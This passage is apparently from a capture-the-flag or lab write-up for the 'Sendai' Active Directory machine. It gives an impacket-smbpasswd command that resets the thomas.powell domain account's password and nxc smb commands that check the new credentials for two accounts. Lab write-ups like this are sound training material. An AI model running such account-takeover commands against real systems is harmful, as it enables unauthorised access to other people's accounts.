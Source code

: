 ![image.png](/assets/images/Sendai_VL/image%2014.png)

Similarly changing the password for the **Thomas.powell** account.

```bash
impacket-smbpasswd sendai.vl/'thomas.powell'@sendai.vl -newpass 'aashwin10!'
```

![image.png](/assets/images/Sendai_VL/image%2015.png)

Successfully changed both of the accounts passwords.

Lets verify that.

```bash
nxc smb sendai.vl -u 'elliot.yates' -p 'aashwin10!'
nxc smb sendai.vl -u 'thomas.powell' -p 'aashwin10!'
```

![image.png](/assets/images/Sendai_VL/image%2016.png)
